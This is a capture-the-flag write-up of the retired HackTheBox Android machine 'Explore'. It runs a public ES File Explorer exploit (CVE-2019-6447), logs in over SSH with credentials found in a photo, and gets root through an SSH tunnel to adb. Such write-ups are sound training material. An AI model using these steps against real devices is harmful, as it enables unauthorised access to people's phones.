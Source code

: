 Title:HTB: Exlore
Date: 11-01-2021 09:15
category:security
tags:security, boot2root, HTB, Android, exploit, adb
meta:security, boot2root, HTB, Android, exploit, adb

<img class="align-left" src="/media/2021.11/explore_card.png" alt="Explore card" width="262">


This is a writeup about a retired HacktheBox machine:
[Explorer](https://www.hackthebox.com/home/machines/profile/356) created by
[bertolis](https://www.hackthebox.com/home/users/profile/27897) and publish on
June 26, 2021.
This box is classified as an easy machine. The user part involves an Android
exploit for ES File Explorer and the root part a simple port forward and an `adb` shell.

<!-- PELICAN_END_SUMMARY -->

# User

## Reco

We start with an nmap scan. Only ports 22 (SSH) and 8080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jul 10 02:07:06 2021 as: nmap -sSV -A -p- -oN notes.md 10.129.153.142
    Nmap scan report for 10.129.153.142
    Host is up (0.012s latency).
    Not shown: 65530 closed ports
    PORT      STATE    SERVICE VERSION
    2222/tcp  open     ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    5555/tcp  filtered freeciv
    33427/tcp open     unknown
    <SNIP>
    42135/tcp open     http    ES File Explorer Name Response httpd
    |_http-title: Site doesn't have a title (text/html).
    59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
    |_http-title: Site doesn't have a title (text/plain).
    <SNIP>

The nmap scan hint us that the "box" is an Android device (port 5555 for adb,
Banana ssh server and ES File Explorer).

A quick google search "ES File Explorer exploit" allows us to find an
[arbitrary file read exploit](https://www.exploit-db.com/exploits/50070).

We run it and are able to list the files on the Android phone but nothing there
will give us a shell (we are still abe to get the user flag).
We list the pictures and found the `creds.png` file.


    :::text
    └─$ python3 50070.py listPics 10.129.153.142

    ==================================================================
    |    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
    |                Coded By : Nehal a.k.a PwnerSec                 |
    ==================================================================

    name : concept.jpg
    time : 4/21/21 02:38:08 AM
    location : /storage/emulated/0/DCIM/concept.jpg
    size : 135.33 KB (138,573 Bytes)

    name : anc.png
    time : 4/21/21 02:37:50 AM
    location : /storage/emulated/0/DCIM/anc.png
    size : 6.24 KB (6,392 Bytes)

    name : creds.jpg
    time : 4/21/21 02:38:18 AM
    location : /storage/emulated/0/DCIM/creds.jpg
    size : 1.14 MB (1,200,401 Bytes)

    name : 224_anc.png
    time : 4/21/21 02:37:21 AM
    location : /storage/emulated/0/DCIM/224_anc.png
    size : 124.88 KB (127,876 Bytes)


The file is a picture of (beautifully) handwritten credential: `kristi:Kr1sT!5h@Rp3xPl0r3!`

We can use this credentials to connect using SSH and get the user flag.

    :::text
    └─$ ssh kristi@10.129.153.142 -p2222 #Kr1sT!5h@Rp3xPl0r3!
    Password authentication
    Password:
    Password authentication
    Password:
    Password authentication
    Password:
    kristi@10.129.153.142's password:
    :/ $ id
    uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cat /sdcard/user.txt
    f32017174c7c7e8f50c6da52891ae250

# Root

We saw in out initial port scan that the port 5555 (adb) was filtered. We use
SSH to access the port directly from the device by creating an SSH Local forward
tunnel.

    :::text
    └─$ ssh -L 5557:127.0.0.1:5555 kristi@10.129.43.55 -p2222
    Password authentication
    Password:
    :/ $ id
    uid=10076(u0_a76)

In another terminal we can run `adb` to list the device, connect to the box,
run a shell as root and grab the flag.

    :::text
    └─$ adb devices
    List of devices attached
    127.0.0.1:5557  device
    └─$ adb connect 127.0.0.1:5557
    already connected to 127.0.0.1:5557
    └─$ adb -s 127.0.0.1:5557 shell                                                                                                                                                                                                          1 ⨯
    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
    :/ # find / -name 'root.txt' 2> /dev/null
    /data/root.txt
    1|:/ # cat data/root.txt
    f04fc82b6d49b41c9b08982be59338c5

## Wrapping up

A "quick" and easy box. I spent way to much time on the root part as my `adb`
demon was acting weirdly and I thought the issue was on my port forwarding.

